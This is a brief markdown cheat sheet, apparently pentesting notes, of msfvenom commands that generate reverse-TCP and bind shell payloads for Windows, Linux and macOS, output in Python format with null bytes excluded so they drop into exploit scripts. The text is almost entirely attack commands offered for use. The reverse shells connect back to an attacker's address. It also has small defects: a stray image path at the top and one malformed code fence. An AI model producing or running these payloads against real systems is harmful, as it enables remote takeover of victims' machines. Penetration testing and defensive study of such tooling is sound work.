 # Creating Payloads for Python Exploits

**List all payloads**
```
msfvenom -l payloads
```

**Windows x86 Reverse TCP Shell**
```
msfvenom -p windows/shell/reverse_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Windows x86 Bind Shell**
```
msfvenom -p windows/shell/bind_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Linux x86 Reverse TCP Shell**
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Linux x86 Bind Shell**
```-b "\x00" -f py
msfvenom -p generic/shell_bind_tcp RHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Mac Reverse Shell**
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Mac Bind Shell***
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=$ip LPORT=4444 -b "\x00" -f py
```
